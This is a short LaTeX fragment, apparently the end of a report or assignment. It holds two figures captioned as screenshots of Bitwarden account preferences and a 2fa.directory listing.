    
\includegraphics[width=0.75\textwidth]{q9b1.png}
    \caption{Bitwarden Account Preferences}
    \label{fig:q9}

    \vspace{0.2in}

    
\includegraphics[width=0.75\textwidth]{q9b2.png}
    \caption{2fa.directory Listing}
    \label{fig:q9-2}
\end{figure}

\end{document}
